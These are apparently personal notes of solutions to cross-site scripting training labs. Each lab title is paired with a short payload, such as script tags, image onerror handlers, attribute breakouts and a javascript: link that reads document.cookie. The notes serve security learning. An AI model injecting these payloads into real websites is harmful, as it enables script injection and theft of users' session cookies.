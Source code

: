 # Lab: Reflected XSS into HTML context with nothing encoded

```html
<script>alert(1)</script>
```

# Lab: DOM XSS in`innerHTML`sink using source`location.search`

```html
<img src=x onerror=alert(1) />
```

# Lab: DOM XSS in`document.write`sink using source`location.search`

```html
" onerror=alert(1) />

"><img src=x onerror=alert(1) />
```

# Lab: DOM XSS in jQuery anchor`href`attribute sink using`location.search`source

```
/feedback?returnPath=javascript:alert(document.cookie)
```

# Lab: Reflected XSS into attribute with angle brackets HTML-encoded

```html
"onmouseover="alert(1)
```

# Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

```
javascript:alert(1)

Insert this as website link
```

# Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
